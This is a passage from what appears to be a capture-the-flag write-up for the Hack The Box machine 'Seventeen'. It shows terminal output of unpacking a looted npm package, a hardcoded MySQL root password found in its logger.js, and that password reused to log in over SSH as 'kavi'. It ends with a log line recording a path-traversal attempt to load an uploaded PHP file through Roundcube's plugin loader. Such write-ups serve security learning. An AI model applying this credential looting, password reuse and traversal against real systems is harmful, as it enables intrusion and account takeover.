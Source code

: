db-logger-1.0.1.tgz                    100%[============================================================================>]     596  --.-KB/s    in 0s      

2022-07-21 19:04:01 (40.3 MB/s) - ‘db-logger-1.0.1.tgz’ saved [596/596]

                                                                                                                                                            
┌──(kali㉿kali)-[~/ctf/htb/seventeen/loot]
└─$ tar -xf db-logger-1.0.1.tgz  
```

New DB Creds within the js file
```
┌──(kali㉿kali)-[~/…/htb/seventeen/loot/package]
└─$ cat logger.js 
var mysql = require('mysql');

var con = mysql.createConnection({
  host: "localhost",
  user: "root",
  password: "IhateMathematics123#",
  database: "logger"
});

function log(msg) {
    con.connect(function(err) {
        if (err) throw err;
        var date = Date();
        var sql = `INSERT INTO logs (time, msg) VALUES (${date}, ${msg});`;
        con.query(sql, function (err, result) {
        if (err) throw err;
        console.log("[+] Logged");
        });
    });
};

module.exports.log = log
```
| Username | Password|
|---|---|
|root|IhateMathematics123#|


Lets check for password reuse on the ```kavi``` account

Success!
```
┌──(kali㉿kali)-[~/…/htb/seventeen/loot/package]
└─$ ssh kavi@seventeen.htb                                                                                                                            255 ⨯
kavi@seventeen.htb's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-177-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


[08-Apr-2022 17:55:26 +0000]: PHP Error: No plugin class ../../../../../../../../../var/www/html/oldmanagement/files/31234/papers found in /var/www/html/mastermailer/plugins/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers.php in /var/www/html/mastermailer/program/lib/Roundcube/rcube_plugin_api.php on line 188 (GET /mastermailer/)
